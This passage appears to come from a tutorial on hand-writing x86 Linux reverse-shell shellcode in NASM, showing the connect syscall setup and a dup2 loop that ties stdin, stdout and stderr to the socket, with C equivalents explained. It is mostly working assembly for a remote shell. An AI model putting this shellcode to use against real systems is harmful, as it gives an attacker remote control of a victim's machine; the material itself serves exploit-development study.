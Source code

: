 `ebx` contains 0x1 at this point because of pressing `socket_type` during the `socket ()` call, so after increasing `ebx`, ebx should be `0x2` (the `sin_family` argument):

```nasm
inc  ebx         ; ebx = 0x02
push word bx     ; sin_family = AF_INET
```

Then save the stack pointer to this sockaddr struct to `ecx`:

```nasm
mov  ecx, esp    ; move stack pointer to sockaddr struct
```

Then:
```nasm
push 0x10        ; addrlen = 16
push ecx         ; const struct sockaddr *addr
push edx         ; sockfd
mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
inc  ebx         ; sys_connect (0x3)
int  0x80        ; syscall (exec sys_connect)
```

### redirect stdin, stdout and stderr via dup2

Now we set start-counter and reset `ecx` for loop:             

```nasm
push 0x2         ; set counter to 2
pop  ecx         ; zero to ecx (reset for newfd loop)
```

`ecx` is now ready for the loop, just saving the socket file descriptor to `ebx` as you need it there during the dup2-syscall:

```nasm
xchg ebx, edx    ; save sockfd
```

Then, `dup2` takes 2 arguments:         
```cpp
int dup2(int oldfd, int newfd);
```

Where `oldfd` (ebx) is the client socket file descriptor and `newfd` is used with stdin(0), stdout(1) and stderr(2):
```cpp
for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
}
```

So, the `sys_dup2` syscall is executed three times in an ecx-based loop:       
```nasm
dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup
```
